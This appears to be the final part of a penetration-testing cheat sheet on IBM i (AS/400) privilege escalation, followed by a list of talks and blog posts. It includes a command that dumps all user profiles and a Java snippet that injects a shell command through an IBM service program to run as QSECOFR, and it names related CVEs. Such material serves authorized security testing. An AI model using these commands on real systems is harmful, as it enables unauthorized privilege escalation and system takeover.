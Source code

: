 ### From ALLOBJ to SECADM

* Query users informations:

    ```c
    DSPUSRPRF USRPRF(*ALL) TYPE(*BASIC) OUTPUT(*OUTFILE) OUTFILE(PENTEST/USERDB)
    ```

* Create a CL script to escalate privilege and compile it with `STRPDM` (output is `PRIVESC`)
* Call the generated PGM (program object): `CALL PENTEST/PRIVESC USERWITHSECADM`


### Arbitrary Command Execution

* QSECOFR user - Compile as `.jar` file and run inside QSH: `java -jar /home/user/exploit.jar`

    ```java
    // Triggering with JTOpen
    sPGMCall.setProgram("/QSYS.LIB/QLWIUTIL4.SRVPGM");
    String str = "`id>/tmp/xy.txt`"; // command execution with QSECOFR
    ProgramParameter[] programParameterArr = {
        new ProgramParameter(2, new AS400Text(str.length() + 1, system).toBytes(str + (char) 0)),
        new ProgramParameter(2, new byte[16384], 16384) // hatmanager.jar
    };
    sPGMCall.setParameterList(programParameterArr);
    sPGMCall.setProcedureName("QlwiRelayCall");
    ```

* QSECOFR user - CVE-2023-40685
* QDIRSRV user - CVE-2023-40378
* QYPSJSVR user - CVE-2023-40686
* QBRMS user - CVE-2023-40377

## References

* [Abusing Adopted Authority on IBM i - Zoltán Pánczél - January 20, 2023](https://blog.silentsignal.eu/2023/01/20/abusing-adopted-authority-on-ibm-i/)
* [Adopted Authority - IBM Support - October 3, 2024](https://www.ibm.com/support/pages/adopted-authority)
* [An IBM i Hacking Tale - Pablo Zurro - April 6, 2023](https://www.fortra.com/blog/ibm-i-hacking-tale)
* [Another Tale of IBM i (AS/400) Hacking - Zoltán Pánczél - September 28, 2022](https://blog.silentsignal.eu/2022/09/28/another-tale-of-ibm-i-as-400-hacking/)
* [AS/400 for pentesters - Black Hat Europe 2006 - Shalom Carmel](https://www.blackhat.com/presentations/bh-europe-06/bh-eu-06-Carmel/bh-eu-06-Carmel.pdf)
* [Awesome-Mainframe-Hacking - samanL33T - July 10, 2019](https://github.com/samanL33T/Awesome-Mainframe-Hacking)
* [Below MI - IBM i for Hackers - Silent Signal - August 22, 2024](https://silentsignal.github.io/BelowMI/)
* [Common Misconcepts on IBM i User Class - *SECOFR - Dan Riehl - September 12, 2013](https://www.securemyi.com/nl/articles/userclass.html)
* [FrenchIBMi - Christian Massé - March 15, 2017](https://github.com/FrenchIBMi/Clubs/)
* [Geeking Out On IBM i - Part 1 - Anonymous - August 31, 2021](https://web.archive.org/web/20210831231128/https://blog.grimm-co.com/2021/07/geeking-out-on-ibm-i-part-1.html)
* [Guru: IBM i *USRPRF Security - Bruce Bading - May 23, 2022](https://www.itjungle.com/2022/05/23/guru-ibm-i-usrprf-security/)
* [Hack the Legacy: IBM I aka AS400 Revealed - Bart Kulach - December 25, 2015](https://youtu.be/JsqUZ3xGdLc)
* [Hack the legacy! IBM i (aka AS/400) revealed - Bart Kulach - May 11, 2021](https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20presentations/DEF%20CON%2023%20-%20Bart-Kulach-Hack-the-Legacy-IBMi-revealed.pdf)
* [Hacking IBM AS/400 in 2024: QShell and Remote Code Execution - Mateusz Lewczak - October 04, 2024](https://www.securitum.com/hacking_ibm_as400_in_2024.html)
* [How to get & crack AS/400 hashes? - Fossies - November 7, 2017](https://fossies.org/linux/john/doc/README.IBM_AS400)